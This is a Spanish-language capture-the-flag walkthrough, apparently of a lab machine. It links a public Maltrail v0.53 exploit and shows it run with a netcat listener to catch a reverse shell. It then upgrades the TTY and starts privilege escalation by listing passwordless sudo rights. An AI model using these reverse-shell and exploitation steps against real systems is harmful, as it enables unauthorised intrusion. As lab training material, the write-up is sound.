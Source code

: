 He usado este `exploit` [https://github.com/spookier/Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) para ganar `acceso` a la máquina víctima. Lo primero que debemos hacer es ponernos en `escucha` con `netcat`

```
#  nc -nlvp 1234
```

`Ejecutamos` el `exploit`

```
# python3 exploit.py 10.10.16.29 1234 http://10.129.155.57:55555/bydkk46 
Running exploit on http://10.129.155.57:55555/bydkk46/login
```

`Ganamos acceso` a la `máquina víctima`

```
# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.29] from (UNKNOWN) [10.129.155.57] 40162
$ whoami
whoami
puma
```

Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla`

```
# stty size
45 18
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation

Listamos los privilegios que posee nuestro usuario

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
